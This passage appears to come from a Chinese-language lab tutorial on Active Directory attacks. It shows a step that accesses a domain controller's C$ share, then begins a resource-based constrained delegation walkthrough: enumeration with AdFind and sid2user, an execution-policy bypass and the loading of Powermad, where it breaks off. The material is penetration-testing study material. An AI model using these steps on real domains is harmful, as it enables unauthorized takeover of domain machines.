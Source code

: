 ![截图](9f682bb4144f478f108dc07e4abacb7e.png)

#### 5）连接域控

```shell
shell dir \\owa2010cn-god.god.org\c$
```

![截图](5925793ff2ec0260105f1686b0d0c236.png)

## 0x03 资源委派攻击

### 原理

基于资源的约束委派(RBCD)是在Windows Server 2012中新加入的功能，与传统的约束委派相比，==它不再需要域管理员权限去设置相关属性==。RBCD把设置委派的权限赋予了机器自身，既机器自己可以决定谁可以被委派来控制我。也就是说机器自身可以直接在自己账户上配置msDS-AllowedToActOnBehalfOfOtherIdentity属性来设置RBCD。

因此，这就可能导致加⼊域的域⽤户被控后也将导致使用当前域用户加入的计算机受控。

### 复现配置

1、域控Windows2012及以上
2、存在域内成员用户加入域操作

这里，我们使用的环境是xd域控环境： windows 2012（DC）、win7、win2008

### 攻击过程

#### 1) 获取受害目标

```cmd
AdFind.exe -h 192.168.3.33 -b "DC=xiaodi,DC=local" -f "objectClass=computer" mS-DS-CreatorSID
```

![截图](2c0eb4b296b50657cabcde398ebd55f0.png)

==注意，这里用adfind查询到同样的sid就代表的是这两个机器都在使用同一用户来加入域环境中的。因此，我们可以用这个来判断该环境下是否具备资源委派攻击。==

#### 2）判断受害用户

```cmd
sid2user.exe \\192.168.3.33 5 21 1695257952 3088263962 2055235443 1104
```

![截图](ddc04de055733d87e85538ec7155ab53.png)

用户是dbadmin，当前机器足够权限完成后面的操作。

#### 3）增加机器

进入powershell，执行以下命令：

```powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Powermad.ps1
```

